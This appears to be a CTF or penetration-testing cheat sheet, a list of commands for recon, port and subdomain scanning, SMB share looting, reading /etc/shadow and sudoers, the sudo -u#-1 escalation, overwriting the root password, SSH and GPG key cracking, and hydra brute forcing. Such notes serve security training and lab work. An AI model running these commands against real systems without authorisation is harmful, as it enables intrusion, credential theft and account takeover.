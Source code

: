 # step by step

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
host {domain}

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery

subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb

## remote exploits
### http/https
if seeing any url with a number change the number

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{sharename} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh -t {user}@{ip} /bin/sh
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

### recon from a shell
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
uname -a
cat /etc/sudoers
cat */.bash_history
cat */.bashrc
cat /etc/sudoers
cat /etc/sudoers.d
cat /etc/crontab
cat /var/spool/*
cat /etc/systemd/system
cat */.ssh/
cat /opt/
cat /etc/passwd
cat /etc/shadow

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/
chmod -s {found_binary} # to disallow others from abusing it

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff
echo -e "hackerpassword\nhackerpassword" | passwd root

grep -r "THM{" / >> temp_flags.txt 2>/dev/null


### sudo -L
https://gtfobins.github.io/#+sudo
sudo -u#-1 /bin/bash

### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

ssh2john {keyfile}>hash

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg

### windows
cd C:\Program Files (x86)
dir

PrivescCheck.ps1

## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


